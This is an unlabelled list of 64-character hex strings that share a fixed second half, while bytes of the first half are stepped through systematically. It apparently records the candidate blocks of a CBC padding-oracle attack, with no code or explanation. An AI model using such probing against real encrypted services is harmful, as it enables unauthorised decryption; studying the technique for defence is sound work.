00000000a7d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000a6d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000a5d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000a4d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000a3d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000a2d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000a1d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000a0d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000009fd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000009ed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000009dd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000009cd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000009bd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000009ad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000099d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000098d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000097d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000096d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000095d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000094d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000093d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000092d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000091d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000090d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000008fd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000008ed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000008dd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000008cd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000008bd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000008ad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000089d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000088d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000087d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000086d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000085d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000084d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000083d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000082d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000081d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000080d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000007fd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000007ed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000007dd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000007cd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000007bd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000007ad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000079d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000078d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000077d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000076d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000075d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000074d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000073d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000072d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000071d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000070d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000006fd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000006ed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000006dd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000006cd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000006bd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000006ad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000069d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000068d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000067d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000066d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000065d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000064d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000063d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000062d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000061d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000060d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000005fd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000005ed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000005dd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000005cd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000005bd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000005ad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000059d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000058d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000057d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000056d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000055d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000054d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000053d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000052d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000051d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000050d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000004fd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000004ed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000004dd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000004cd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000004bd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000004ad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000049d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000048d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000047d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000046d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
0000000045d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
000000ff44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000fe44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000fd44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000fc44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000fb44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000fa44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f944d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f844d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f744d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f644d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f544d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f444d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f344d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f244d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f144d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000f044d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ef44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ee44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ed44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ec44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000eb44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ea44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e944d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e844d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e744d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e644d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e544d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e444d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e344d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e244d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e144d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000e044d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000df44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000de44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000dd44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000dc44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000db44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000da44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d944d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d844d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d744d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d644d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d544d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d444d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d344d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d244d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d144d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000d044d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000cf44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ce44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000cd44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000cc44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000cb44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ca44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c944d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c844d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c744d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c644d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c544d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c444d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c344d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c244d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c144d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000c044d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000bf44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000be44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000bd44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000bc44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000bb44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ba44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b944d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b844d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b744d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b644d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b544d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b444d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b344d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b244d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b144d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000b044d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000af44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ae44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ad44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ac44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000ab44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000aa44d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000a944d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000a844d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
000000a744d2fa3da40c447f3bd9b1ba54f5b5f8b5bf079cb364e3b6ec0cf813
0000ffa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000fea447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000fda447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000fca447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000fba447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000faa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f9a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f8a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f7a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f6a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f5a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f4a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f3a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f2a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f1a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000f0a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000efa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000eea447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000eda447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000eca447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000eba447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000eaa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e9a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e8a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e7a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e6a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e5a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e4a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e3a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e2a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e1a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000e0a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000dfa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000dea447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000dda447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000dca447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000dba447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000daa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d9a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d8a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d7a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d6a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d5a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d4a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d3a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d2a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d1a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000d0a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000cfa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000cea447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000cda447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000cca447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000cba447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000caa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c9a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c8a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c7a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c6a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c5a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c4a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c3a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c2a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c1a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000c0a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000bfa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000bea447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000bda447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000bca447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000bba447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000baa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b9a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b8a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b7a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b6a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b5a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b4a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b3a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b2a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b1a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000b0a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000afa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000aea447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000ada447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000aca447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000aba447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000aaa447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000a9a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000a8a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000a7a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000a6a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000a5a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000a4a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000a3a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000a2a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
0000a1a447d1f93ea70f477c38dab2b954f5b5f8b5bf079cb364e3b6ec0cf813
00ffa0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00fea0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00fda0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00fca0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00fba0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00faa0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f9a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f8a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f7a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f6a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f5a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f4a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f3a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f2a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f1a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00f0a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00efa0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00eea0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00eda0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00eca0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00eba0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00eaa0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00e9a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00e8a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00e7a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00e6a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00e5a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00e4a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
